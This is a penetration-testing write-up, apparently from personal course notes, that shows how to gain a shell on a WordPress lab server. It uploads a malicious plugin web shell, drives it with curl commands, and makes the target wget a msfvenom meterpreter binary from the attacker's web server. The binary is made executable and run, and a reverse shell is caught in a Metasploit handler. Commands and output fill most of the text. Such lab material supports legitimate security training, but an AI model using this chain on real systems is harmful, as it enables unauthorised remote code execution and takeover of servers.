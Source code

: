 ```yaml
---
description: >-
  Wordpress Loading Plugin Shell
title:  Wordpress Loading Plugin Shell             # Add title here
date: 2022-12-10 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Wordpress Loading Plugin Shell]                     # Change Templates to Writeup
tags: [exploitation, wordpress, plugin shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Obtaining a Shell

To obtain a shell, we first must package the plugin in a way that WordPress knows how to handle. WordPress expects plugins to be in a zip file. When WordPress receives the zip file, it will extract it into the wp-content/plugins directory on the server. WordPress places the contents of the zip file into a folder that matches the name of the zip file itself. Because of this, we will need to make note of the name of the file in order to be able to access our PHP shell later on.

```bash
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress

kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php 
  adding: plugin-shell.php (deflated 58%)
```

The generated zip file is named plugin-shell.zip and will be placed in the plugin-shell folder within wp-content/plugins on the server.

Now that the plugin package is generated, it's time to upload the shell. First, we need to visit the Plugins page by clicking the _Plugins_ link on the left sidebar.

![Description](/assets/img/Pasted image 20221210223118.png)

Next, we install the plugin by clicking _Add New_ at the top left. This will take us to the "Add Plugins" page.

![Description](/assets/img/Pasted image 20221210223158.png)

Since we are not downloading a plugin from the WordPress plugin directory, we need to select _Upload Plugin_ at the top left of the page.

![Description](/assets/img/Pasted image 20221210223247.png)

This will open up a section where we can select our plugin package. We need to select _Browse_, which will open up a file dialog for us to find the created package.

![Description](/assets/img/Pasted image 20221210223323.png)

With the file dialog open, we navigate to the directory containing our plugin, select the plugin-shell.zip file, and click _Open_ at the bottom of the file dialog.

Finally, to install the plugin, we click _Install Now_.

![Description](/assets/img/Pasted image 20221210223355.png)

Installing the plugin will upload the zip and extract the contents.

Now that the plugin is installed, we can attempt to use it to run system commands on the WordPress target. For this, we can simply use _cURL_. As discussed earlier, the directory for the plugin is wp-content/plugins/, the zip will be extracted into a directory named plugin-shell, and the file that we are targeting is named plugin-shell.php.

Remember that we must also set a _cmd_ parameter containing the command we are attempting to execute on the target system. Let's attempt to run whoami and see if the shell worked.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

It worked! Based on the output of Listing 26, we are running commands as the www-data user. Now it's time to upload a meterpreter payload and obtain a full reverse shell.

First let's generate a meterpreter payload with the msfvenom utility.

```bash
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
```

We are selecting the Linux reverse TCP meterpreter payload since we know that the target is running on Ubuntu from our previous enumeration efforts. The LHOST option will point to our Kali IP address and we are selecting an LPORT of 443 in an attempt to evade any outbound firewall rules. While it's good practice to always check for any egress filtering, in this case we will make the assumption that port 443 is unrestricted. We are generating the payload as an _elf_ file and redirecting the output to a file named shell.elf in the kali user home directory.

With the meterpreter reverse shell generated, we start a web server to allow the target to download the shell.

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
```

The webserver in Listing 28 is using the Python _http.server_ module, is instructed to use port 80, and is serving files from the kali user home directory. We chose port 80 again to avoid any potential issues we might run into if there is a firewall blocking arbitrary outbound ports.

With the shell generated and the web server running, we will instruct the target to download the shell. We will use wget from the target to download the shell from our Kali system. However, we must encode any space characters with "%20" since we cannot use spaces in URLs. The command we are running is shown in Listing 29.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf
```

If the command worked, we should see an entry similar to the following in our Python webserver's log.

```bash
Serving HTTP on 0.0.0.0 port 80 ...
10.11.1.250 - - [09/Dec/2019 19:40:16] "GET /shell.elf HTTP/1.1" 200 -
```

Success! Next we need to make the shell executable, start a Metasploit payload handler on Kali, and run the _elf_ file on the target to acquire a meterpreter shell. To make the shell executable, we will run chmod +x on it. Once again, we need to remember to urlencode sensitive characters such as space (%20) and "+" (%2b). The command to make the shell executable is displayed in Listing 31.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
```

At this point, the shell should be executable. Next, we will start a meterpreter payload listener on the appropriate interface and port.

```bash
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
>              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
>              set LHOST 10.11.0.4;\
>              set LPORT 443;\
>              run"
PAYLOAD => linux/x86/meterpreter/reverse_tcp
LHOST => 10.11.0.4
LPORT => 443
[*] Started reverse TCP handler on 10.11.0.4:443 
```

In the msfconsole command above, we are having Metasploit start quietly (-q) and immediately configure the payload handler via the -x option, passing the same payload settings we used when generating the shell.

With our listener running, it's finally time to obtain a reverse shell. This can be done by executing the shell.elf file via the malicious WordPress plugin we installed previously.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
```

Returning to our listener, we should see that we have captured a shell.

```bash
[*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:53768) at 19:54:41

meterpreter > shell
Process 9629 created.
Channel 1 created.

whoami
www-data

exit
meterpreter > 
```

